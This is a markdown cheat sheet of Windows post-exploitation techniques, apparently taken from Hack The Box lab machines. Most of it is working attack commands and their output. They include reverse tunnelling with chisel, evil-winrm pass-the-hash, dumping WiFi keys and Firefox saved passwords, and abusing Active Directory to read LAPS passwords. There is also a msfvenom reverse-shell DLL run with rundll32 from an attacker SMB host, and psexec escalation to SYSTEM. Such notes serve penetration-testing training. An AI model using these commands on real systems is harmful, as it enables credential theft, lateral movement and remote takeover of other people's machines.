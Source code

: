 ## WinRM service is only available locally
- Got initial shell, found another user's credentials but could not get a shell
- Port forward 5985
```bash
attacker$ chisel server -p <PORT> --reverse
victim$ chisel client http://attacker:PORT R:5985:127.0.0.1:5985

attacker$ evil-winrm -i 127.0.0.1 -u <USER> -p <PASS>
```

## You got a user's hash instead of password
- Pass the Hash
```bash
evil-winrm -i <IP> -u <USER> -H <HASH>
```

## Show WiFi credentials
```bash
netsh wlan show profiles
netsh wlan show profiles <NAME> key=clear
...[snip]...
Security settings
-----------------
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    ...[snip]...
    Key Content            : Admin123!!
...[snip]...
```

## User is not in WinRM group
- Excerpt from machine: pivotapi.htb
```bash
# Credential to authenticate

$mypass = 'Cos@Chung@!RPG' | ConvertTo-SecureString -AsPlainText -Force
$mycred = New-Object System.Management.Automation.PSCredential('LicorDeBellota.htb\jari', $mypass)

# Set gibdeon's credential

$pwd = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity gibdeon -AccountPassword $pwd -Credential $mycred

# Add gibdeon to group membership

$cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota.htb\gibdeon', $pwd)

Add-ADGroupMember -Identity 'laps adm'  -Members gibdeon -Credential $cred
Add-ADGroupMember -Identity 'laps read' -Members gibdeon -Credential $cred
"""

$ python3 lapsdump.py -u gibdeon -p 'Pass123!' -d licordebellota.htb -l 10.10.10.240

PIVOTAPI$:HUcP5c19h8HCw41w4gSi

```

```bash
The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.
```

### xfreerdp resizable window
```bash
xfreerdp /u:<USER> /p:<PASS> /v:<IP> /dynamic-resolution
```

### Decrypt credentials from mozilla profiles
- Copy the 3 files to local machine into a directory ( requirements )
- run firefox_decrypt
```bash
$ ls mozilla 
cert9.db  key4.db  logins.json

$ python3 firefox_decrypt.py mozilla/
2021-11-18 09:10:55,772 - WARNING - profile.ini not found in mozilla
2021-11-18 09:10:55,772 - WARNING - Continuing and assuming 'mozilla' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

### netsh http
```bash
PS C:\windows\system32\inetsrv> netsh http show urlacl     
                                                           
URL Reservations:                                          
-----------------                                          
                                                           
    Reserved URL            : https://*:8172/ 
        User: NT SERVICE\WMSVC                             
            Listen: Yes                                    
            Delegate: No
            SDDL: D:(A;;GX;;;S-1-5-80-257763619-1023834443-750927789-3464696139-1457670516)                           
                                                           
    Reserved URL            : http://*:5357/ 
        User: BUILTIN\Users                                
            Listen: Yes                                    
            Delegate: No                                   
        User: NT AUTHORITY\LOCAL SERVICE                   
            Listen: Yes                                    
            Delegate: No   
            SDDL: D:(A;;GX;;;BU)(A;;GX;;;LS)

    Reserved URL            : http://+:5985/wsman/ 
        User: NT SERVICE\WinRM
            Listen: Yes                                    
            Delegate: No                                   
        User: NT SERVICE\Wecsvc
            Listen: Yes                                    
            Delegate: No                                   
            SDDL: D:(A;;GX;;;S-1-5-80-569256582-2953403351-2909559716-1301513147-412116970)(A;;GX;;;S-1-5-80-4059739203-877974739-1245631912-527174227-2996563517)
			
...[snip]...

```

## Reverse shell via DLL
* attacker
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4444 -f dll -o shell.dll
$ impacket-smbserver smb .
$ nc -lnvp 4444
```

* victim
```bash
rundll32.exe \\10.10.14.21\smb\shell.dll, 0
```

## Elevate from Administrator to SYSTEM account

Check mandatory level first ( UAC Bypass )

```txt
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST... -f exe -o shell.exe
$ nc -lnvp 4444

#1 - FAIL
C:\>psexec64.exe -i -accepteula -d -s shell.exe
The system cannot find the file specified.

#2 - SUCCESS : Absolute path is given
C:\>psexec64.exe -i -accepteula -d -s C:\Users\Public\Downloads\shell.exe
whoami
nt authority\system
```

If #2 still fails, it means that UAC takes place and needs to be bypassed.

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/


